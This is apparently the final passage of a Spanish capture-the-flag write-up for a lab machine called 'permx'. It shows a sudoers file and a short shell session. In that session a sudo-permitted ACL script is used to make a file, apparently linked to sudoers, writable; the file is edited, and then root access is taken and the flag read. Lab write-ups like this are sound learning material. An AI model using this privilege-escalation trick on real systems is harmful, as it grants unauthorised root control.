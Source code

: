     # Host alias specification
    
    # User alias specification
    
    # Cmnd alias specification
    
    # User privilege specification
    root	ALL=(ALL:ALL) ALL
    
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    
    # Allow members of group sudo to execute any command
    %sudo	ALL=(ALL:ALL) ALL
    
    # See sudoers(5) for more information on "@include" directives:
    
    @includedir /etc/sudoers.d
    mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
    

Edito la ultima linea sustituyendola por ALL y...

    mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
    mtz@permx:~$ nano enlace
    mtz@permx:~$ sudo su
    root@permx:/home/mtz# cd /root
    root@permx:~# ls
    backup  reset.sh  root.txt
    root@permx:~# cat root.txt
    

🎉🎉🎉
